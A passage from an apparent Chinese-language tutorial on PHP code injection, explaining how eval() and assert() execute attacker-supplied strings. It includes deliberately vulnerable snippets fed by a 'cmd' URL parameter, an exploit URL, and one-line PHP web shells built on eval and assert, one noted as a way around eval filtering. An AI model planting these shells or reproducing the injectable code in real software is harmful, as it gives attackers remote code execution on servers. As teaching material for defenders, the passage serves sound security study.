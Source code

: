 输出为

``` php
This is a $string with my $name in it.
This is a cup with my coffee in it.
```

下面在举另一个常见的命令注入的例子: 

``` php
<?php
    if(isset($_GET['cmd'])){
      $cmd = $_GET['cmd'];
      eval("\$cmd=$cmd;");
  }
?>
```

然后我们访问 URL <http://localhost/test.php?cmd=phpinfo%28%29> 就可以看到 phpinfo() 信息了。

另外最常见的 PHP 一句话木马就是 `eval()` 构成的: 

``` php
<?php @eval($_POST['pass']);?>
```

### assert

检查一个断言是否为 FALSE。说明: 

``` php
bool assert ( mixed $assertion [, string $description ] )
```

**assert()** 会检查指定的 assertion 并在结果为 **FALSE** 时采取适当的行动。

如果 assertion 是字符串, 它将会被 `assert()` 当做 PHP 代码来执行。 assertion 是字符串的优势是当禁用断言时它的开销会更小, 并且在断言失败时消息会包含_ assertion 表达式。 这意味着如果你传入了 boolean 的条件作为 assertion, 这个条件将不会显示为断言函数的参数；在调用你定义的 `assert_options()` 处理函数时, 条件会转换为字符串, 而布尔值 **FALSE** 会被转换成空字符串。

`assert()` 的注入代码跟 `eval()` 类似, 经常在 eval 关键字被屏蔽时使用 assert 代替, 直接将上面示例中的 eval 改为 assert 即可: 

``` php
<?php
  if(isset($_GET['cmd'])){
      $cmd = $_GET['cmd'];
      assert("\$cmd=$cmd;");
  }
?>
```

同样访问 URL <http://localhost/test.php?cmd=phpinfo%28%29> 就可以看到 phpinfo() 信息了。

另外使用 assert 的一句话木马为: 

``` php
<?php @assert($_POST['pass']);?>
```

### preg_replace
